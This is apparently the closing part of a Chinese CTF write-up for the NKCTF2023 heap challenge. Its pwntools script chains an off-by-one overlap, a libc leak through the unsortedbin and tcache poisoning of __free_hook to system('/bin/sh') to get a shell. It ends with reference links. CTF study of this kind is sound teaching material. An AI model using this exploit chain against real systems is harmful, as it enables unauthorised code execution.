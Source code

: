 ```python
            self.delete(i)

        # off by one -> overlap chunk
        payload = cyclic(0x18) + b'\xa1'
        self.edit(0, payload)
        self.delete(1)
        self.add(10, 0x40)
        
        # leak libc address by unsortedbin
        self.edit(2, b'\x0a')
        self.show(2)
        main_arena_addr = u64(self.handle.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))-0x0a-96
        libc_addr = main_arena_addr - (libc.sym['__malloc_hook']+0x10)
        libc.address = libc_addr
        success("libc base address :"+hex(libc_addr))

        # recover fd,bk in unsortedbin
        self.edit(2, p64(main_arena_addr+96)*2)

        # show (e->next)>>12
        self.add(11,0x40)
        self.add(12,0x40)
        self.add(13,0x40)
        self.show(2)
        enext = u64(self.handle.recvuntil("\x0a",drop = True).ljust(8,b'\x00'))
        success("enext :"+hex(enext))

        # tcache attack
        self.delete(13)
        self.delete(12)
        self.delete(11)
        self.edit(2, p64(libc.sym['__free_hook'] ^ enext))
        self.add(14, 0x40)
        self.add(15, 0x40)
        self.edit(15, p64(libc.sym['system']))
        self.edit(14, "/bin/sh\x00")
        self.delete(14)

        self.handle.interactive()


if __name__ == '__main__':
    p = process('./pwn')
    sol = Solve(p)
    sol.solve()
```

# 参考

1. [Linux_ShellCode总结](https://www.cnblogs.com/bhxdn/p/14558328.html)
2. [Tcache机制及漏洞利用方法](https://www.jianshu.com/p/9778331e1337)
3. [NKCTF2023 官方WP](https://mp.weixin.qq.com/s/TR_WWQR2Xl8SyfYTDulbrw)
4. [NKCTF2023](https://undefinedchen.top/2023/03/26/NKCTF/#baby-heap)